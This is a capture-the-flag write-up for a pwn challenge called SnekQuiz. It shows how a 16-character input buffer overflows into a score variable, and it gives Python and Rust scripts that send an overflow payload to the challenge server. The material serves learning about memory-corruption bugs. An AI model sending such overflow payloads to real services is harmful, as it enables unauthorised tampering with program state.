 
###SnekQuiz - [pwn] - 200pts
As with each pwning challenge, the first step is to understand how the program works, what input it takes, what output it produces, and see if there are any values that will produce unexpected output.

![](images/test_run_1.png)


Ok, so lets see what happens when we provide the correct answers to the questions.

![](images/test_run_2.png)


Great! We get some points. But we run into a bit of a problem, we need to get 5 points and we are only asked 3 questions :( oh no!!

Ok, lets try running the program one time, but with some strange values and see what we get.

![](images/run_3.png)


Ha! Thats strange, where `10` coming from?  Well it seems we have a buffer of 16 characters to work with, anything past that causes on overflow which modified the score.  So, can we write some value which will change the score to 5 and give us the flag?  Lets find out!


I wrote a quick Python script which will send our exploit string to the server.

```python
import socket
import time


# setup the socket stuff
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except socket.error as e:
    print "[!] Failed to initiate socket\n"
    sys.exit()
else:
    print "[+] Socket successfully created\n"

    # connect to the socket
    HOST = "challenge.uiuc.tf"
    PORT = 11343
    sock.connect((HOST, PORT))



# run the exploit
while True:
    output = sock.recv(1024)
    if output == None or output == "":
        break
    else:
        sock.send("aaaaaaaaaaaaaaaa\x05")
        print output

```

And voila!
![](images/the_flag.png)



**Side Note**
I had a bit of time on my hands, so I also wrote the same exploit in `Rust` because why not.

```rust
extern crate bufstream;
use std::net::TcpStream;
use bufstream::BufStream;

// Traits
use std::io::BufRead;
use std::io::Write;


fn main() {
    if let Ok(stream) = TcpStream::connect("challenge.uiuc.tf:11343") {
        let mut buffer = BufStream::new(stream);
        loop {
            let mut output = String::new();
            if output == " " {
                break;
            } else {
                buffer.read_line(&mut output).unwrap();
                buffer.write_all(b"aaaaaaaaaaaaaaaa\x05").unwrap();
                buffer.flush().unwrap();
                print!("{}", output);
            }
        }
    } else {
        println!("[!] Unable to connect!");
    }
}
```

![](images/rust_exploit.png)
